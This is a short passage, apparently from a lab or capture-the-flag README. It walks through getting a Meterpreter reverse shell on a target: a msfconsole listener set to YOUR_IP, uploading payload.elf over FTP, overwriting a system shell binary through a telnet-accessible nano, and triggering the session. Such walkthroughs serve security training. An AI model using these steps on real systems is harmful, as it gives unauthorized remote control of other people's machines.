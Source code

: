 ```
-Start your listener in `msfconsole` and use `payload/linux/x64/meterpreter/reverse_tcp`, then `set hosts YOUR_IP`.
-ftp to 8075 and upload the payload.elf file.
-telnet to 8095 to use nano to open the payload.elf file at /tmp/ftp/payload.elf and save to /usr/frosry/sh.
-telnet to 8065 and you will now have a meterpreter session. Use sessions -i 1 to get the meterpreter prompt.
```
<p align="left">
  <img height=500 img src=./readme_assets/meterpreter.PNG/>
</p>

You now have a shell. 
